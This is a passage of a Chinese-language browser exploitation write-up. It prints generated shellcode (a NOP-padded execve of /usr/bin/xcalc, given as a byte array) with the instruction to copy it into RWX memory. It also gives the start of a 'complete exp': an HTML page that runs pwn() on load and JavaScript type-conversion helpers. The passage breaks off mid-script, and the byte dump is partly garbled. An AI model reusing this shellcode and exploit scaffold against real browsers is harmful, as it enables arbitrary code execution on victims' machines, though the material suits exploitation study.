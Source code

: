 执行之后生成一个`shellcode.js` 保存一个`sc` 数组，把这个数组拷贝到要转换成`rwx` 的内存即可

```
root@prbv:/var/www/html# python shellcode.py 
137
Hx8d=Ix00x001�VWT^H1Hx8dx15x00x00TZxb0;x0fx90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90/usr/bin/xcalcx00x00x00x00x00x00x00x00x00x00x00x00x00x00x00x00DISPLAY=:0x00
sc = [72, 141, 61, 73, 0, 0, 0, 72, 49, 246, 86, 87, 84, 94, 72, 49, 210, 82, 72, 141, 21, 101, 0, 0, 0, 82, 84, 90, 176, 59, 15, 5, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 47, 117, 115, 114, 47, 98, 105, 110, 47, 120, 99, 97, 108, 99, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 68, 73, 83, 80, 76, 65, 89, 61, 58, 48, 0]
```

### <a class="reference-link" name="exp"></a>exp

完整exp如下

`exp.html`

```
&lt;!DOCTYPE html&gt;
&lt;html&gt;
&lt;head&gt;
  &lt;style&gt;
    body `{`
      font-family: monospace;
    `}`
  &lt;/style&gt;

  &lt;script src="shellcode.js"&gt;&lt;/script&gt;
  &lt;script src="exp.js"&gt;&lt;/script&gt;
&lt;/head&gt;
&lt;body onload="pwn()"&gt;
  &lt;p&gt;Please wait...&lt;/p&gt;
&lt;/body&gt;
&lt;/html&gt;
```

`exp.js`

```
var conversion_buffer = new ArrayBuffer(8);
var f64 = new Float64Array(conversion_buffer);
var i32 = new Uint32Array(conversion_buffer);

var BASE32 = 0x100000000;
function f2i(f) `{`
    f64[0] = f;
    return i32[0] + BASE32 * i32[1];
`}`

function i2f(i) `{`
    i32[0] = i % BASE32;
    i32[1] = i / BASE32;
    return f64[0];
`}`

function hex(addr)`{`
    return '0x'+addr.toString(16);
`}`
function print(msg) `{`
    console.log(msg);
//    document.body.innerText += 'n[+]: '+msg ;
    document.body.innerHTML += '&lt;br&gt;[+]: '+msg ;
```

[+]: 0 96
[+]: 1 96
[+]: 2 96
[+]: 3 96
[+]: 4 96
[+]: 5 96
[+]: 6 256
[+]: 7 96
[+]: 8 96
[+]: 9 96
[+]: 10 96
[+]: 11 96
[+]: 12 96
[+]: 13 96
[+]: 14 96
[+]: 15 96